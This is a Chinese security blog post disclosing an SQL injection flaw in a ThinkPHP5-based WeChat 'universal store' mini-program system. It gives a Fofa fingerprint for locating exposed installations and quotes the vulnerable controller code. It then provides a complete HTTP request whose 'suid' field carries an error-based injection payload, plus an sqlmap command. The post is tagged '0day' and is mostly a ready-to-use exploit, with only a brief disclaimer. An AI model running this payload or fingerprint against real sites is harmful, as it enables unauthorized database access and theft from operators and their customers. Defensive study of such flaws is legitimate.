 #  某微信万能门店小程序系统存在前台SQL注入漏洞   
原创 Mstir  星悦安全   2024-11-22 03:42  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
- █   
远山起风又起雾 无人知我来时路  
 █  
  
- **万能门店小程序DIY建站无限独立版非微擎应用，独立版是基于国内很火的ThinkPHP5框架开发的，适用于各行各业小程序、企业门店小程序！**  
  
- **万能门店微信小程序不限制小程序生成数量，支持多页面，预约功能等。 本套源码包含多商户插件、点餐插件、拼团插件、积分兑换、小程序手机客服等全套十个插件模块。**  
  
- **支持后台一键扫码上传小程序，和后台通用模板。**  
  
- **增加了：抖音/头条小程序，百度小程序，支付宝小程序，qq小程序，H5端**  
  
**Fofa指纹:**  
```
"/comhome/cases/index.html"
```  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eNYFEuuhHqEVQ5waZZ2ulOAQkmvWFZic2p7hrrbwQNmicEUjhvwJnNGJSLTQt0eRoJhThxicgozX74Q/640?wx_fmt=other&from=appmsg "")  
  
后台  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eNYFEuuhHqEVQ5waZZ2ulO8oicUdGjMgMtsynwsmn8vpbLibQeo8IndG8npvOW7ff0yISfWJjfoeuQ/640?wx_fmt=jpeg "")  
  
框架:ThinkPHP 5 Debug:False  
## 0x01 漏洞分析&复现  
  
**位于 /api/controller/Wxapps.php 控制器的doPageGetFormList 方法通过input方法传入suid 参数进入SQL查询中，且未有过滤，导致漏洞产生.**  
```
//获取我的表单提交信息列表
public function doPageGetFormList()  {
    $uniacid = input('uniacid');
    $openid = input('openid');
    $suid = input('suid');
    $pageindex = max(1, intval(input('page')));
    $pagesize = 10;
    $prefix = config('database.prefix');
    $formset = Db::query("SELECT a.id,a.cid,a.creattime,a.flag,a.source,a.fid FROM {$prefix}wd_xcx_formcon as a left join {$prefix}wd_xcx_products as b on a.cid = b.id and a.uniacid = b.uniacid WHERE a.suid = '{$suid}' and a.uniacid = {$uniacid} and (a.source is null or a.source <> 'VIP申请') and (b.type = 'showArt' or b.type is null) ORDER BY a.id DESC LIMIT " . ($pageindex - 1) * $pagesize . "," . $pagesize);
    if ($formset) {
      foreach ($formset as $key => &$res) {
        $pro = Db::query("SELECT title,formset FROM {$prefix}wd_xcx_products WHERE id = {$res['cid']} and uniacid = {$uniacid}");
        if ($pro) {
          $pro = $pro[0];
          $res['title'] = $pro['title'];
          $res['formtitle'] = Db::name('wd_xcx_formlist')->where("uniacid", $uniacid)->where("id", $pro['formset'])->value("formname");
          $res['formtitle'] = "文章-" . $pro['title'] . "-" . $res['formtitle'];
        } else {
          $res['title'] = "";
          $res['formtitle'] = Db::name('wd_xcx_formlist')->where("uniacid", $uniacid)->where("id", $res['fid'])->value("formname");
          $res['formtitle'] = "DIY-" . $res['formtitle'];
        }
        $res['creattime'] = date("Y-m-d H:i:s", $res['creattime']);
      }
    }
    $result['data'] = $formset;
    return json_encode($result);
  }

```  
  
**Payload:**  
```
POST /api/wxapps/doPageGetFormList HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 85
Content-Type: application/x-www-form-urlencoded
Cookie: Hm_lvt_d3b3b1b968a56124689d1366adeacf8f=1731328644; _ga=GA1.1.2095806093.1731475984; mysid=50ada153bbeed41d23f7435c73e56ddb; Hm_lvt_22fbf4ec0601742141df7f652a137a5c=1731635709; PHPSESSID=1cpts6dcp8926ur7pc80rud3a1
Host: 127.0.0.1:81
Origin: http://127.0.0.1:81
Referer: http://127.0.0.1:81/api/wxapps/doPageGetFormList
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

suid=' AND GTID_SUBSET(CONCAT((SELECT (user()))),3119)-- bdmV
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cNQYaAa6DaI0FBYJfCE7jibEYT9dp1jtsDgoQqmLD1u9LuuTwU9uVW95aldAHGDzaiblHdWTViaffwQ/640?wx_fmt=other&from=appmsg "")  
  
**python sqlmap.py -r a.txt --level=3 --dbms=mysql**  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cNQYaAa6DaI0FBYJfCE7jibslmH7x7IUiahwhVmVicYeCKRlgos0B4SJGepMJ3ghlY7EDphxYdBjKbQ/640?wx_fmt=other&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**万能门店源码关注公众号发送 241119 获取!**  
  
  
  
  
下方二维  
码添加好友，回复关键词   
**星悦安全**  
进群  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pPVXCo8Wd8CGA5xDtuNnCSVGd0ibW86zZaJ6tr5ib17xnMbupUibq24HQEl4gRoptsVgCBSNnwBEGmSn3a4ftXVzQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pPVXCo8Wd8AOzYX7kxefGbGGZg3g1ltkN30q9hceg23PiczgUqMT0EE9w0fLK9uw1eKWwQX9TljXQe1OQeHRZ2Q/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
